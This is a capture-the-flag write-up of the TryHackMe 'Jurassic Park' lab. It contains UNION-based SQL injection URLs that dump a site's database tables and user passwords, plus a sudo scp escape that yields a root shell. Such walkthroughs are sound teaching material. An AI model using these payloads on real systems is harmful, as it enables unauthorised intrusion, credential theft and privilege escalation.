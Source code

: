 # THM - UnderPass

#### Ip: 10.10.74.251
#### Name: Jurassic Park
#### Rating: Hard

----------------------------------------------------------------------

thm_jpark_pic.jpeg

```
This medium-hard task will require you to enumerate the web application, get credentials to the server and find four flags hidden around the file system. Oh, Dennis Nedry has helped us to secure the app too.
```

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Jurassic_Park]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.74.251 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-31 11:22 CST
Nmap scan report for 10.10.74.251
Host is up (0.35s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 45933d22b9d6fa11d18c3a017f67a1ab (RSA)
|   256 07ed484bd9643b2602d4ac7cae9aab7f (ECDSA)
|_  256 6995e9e0d3454624ac6973722290fe3e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Jarassic Park
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.78 seconds
```

Looking at the page on port 80 we find a simple site:

thm_jpark_site.png

Following the online shop link we are redirected to http://10.10.74.251/shop.php

Clicking on purchase package we are redirected to http://10.10.74.251/item.php?id=2

Trying something like `id=2'` we trigger  this warning:

thm_jpark_nope.png

Which at the very bottom humorously has:

```
Try SqlMap.. I dare you..
```

We can confirm the page is vulnerable to SQL injection with: `http://10.10.74.251/item.php?id=1%20or%20sleep(10)`

Continuing to enumerate and also test for IDOR, we find a 'development package' as id=5:

thm_jpark_5.png

Cool. So it looks like there is some character blacklisting going on here.

### Exploitation

Beginning to try to exploit this we can see there are 5 columns:

```
http://10.10.165.197/item.php?id=1%20union%20select%201,2,3,4,5
```

Because we know that the `@` sign is blocked, we can get the Mysql version using `select version()`: 

```
http://10.10.165.197/item.php?id=1%20UNION%20select%201,version(),3,4,5
```

thm_jpark_version.png

We can also begin enumerating the DB with `database()`:

```
http://10.10.165.197/item.php?id=1%20UNION%20select%201,database(),3,4,5
```

thm_jpark_db.png

Viewing the tables:

```
http://10.10.165.197/item.php?id=1%20UNION%20select%201,TABLE_NAME,TABLE_SCHEMA,4,5%20from%20INFORMATION_SCHEMA.TABLES%20where%20table_schema=%22park%22
```

thm_jpark_tables.png

Columns:

```
http://10.10.165.197/item.php?id=1%20UNION%20select%201,group_concat(COLUMN_NAME),TABLE_NAME,4,5%20from%20INFORMATION_SCHEMA.COLUMNS%20where%20table_name=%22users%22
```

thm_jpark_columns.png

Note, we need to use the `group_concat` here

Cool, so now we see the columns username and password.

The string `username` is being blacklisted, but we know we are looking for the password for user Dennis, so let's take a look at the password column:

```
http://10.10.165.197/item.php?id=1%20UNION%20select%201,%20group_concat(password),%203,%204,5%20from%20park.users
``` 
thm_jpark_pass.png

We now have the passwords D0nt3ATM3 and ih8dinos

We can login to SSH with `dennis:ih8dinos`

```
┌──(ryan㉿kali)-[~/THM/Jurassic_Park]
└─$ ssh dennis@10.10.165.197 
```

And grab the flag1.txt flag:

thm_jpark_flag1.png

### Privilege Escalation

Seeing what user dennis can run with elevated permissions we see he can run `scp` as root:

```
dennis@ip-10-10-165-197:/var/www/html$ sudo -l
Matching Defaults entries for dennis on ip-10-10-165-197.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dennis may run the following commands on ip-10-10-165-197.eu-west-1.compute.internal:
    (ALL) NOPASSWD: /usr/bin/scp
dennis@ip-10-10-165-197:/var/www/html$ cd /tmp
```

We can head to https://gtfobins.github.io/gtfobins/scp/#sudo for the commands we'll need to exploit this
```
dennis@ip-10-10-165-197:/tmp$ TF=$(mktemp)
dennis@ip-10-10-165-197:/tmp$ echo 'sh 0<&2 1>&2' > $TF
dennis@ip-10-10-165-197:/tmp$ chmod +x "$TF"
dennis@ip-10-10-165-197:/tmp$ sudo /usr/bin/scp -S $TF x y:
# whoami
root
# hostname
ip-10-10-165-197
```

We can then grab flag5:

thm_jpark_flag5.png

Going back to find the other flags we find flag2's location in `.viminfo`:

```
# File marks:
'0  1  37  ~/.bash_history
'1  2  18  ~/test.sh
'2  2  18  /home/ubuntu/test.sh
'3  1802  31  /tmp/flagFour.txt
'4  1  63  ~/flag1.txt
'5  1  31  /boot/grub/fonts/flagTwo.txt
'6  1  0  /var/www/html/index.php
```

thm_jpark_flag2.png

And we can also find flag3 in `.bash_history`

thm_jpark_flag3.png

Thanks for following along!

-Ryan

-----------------------------------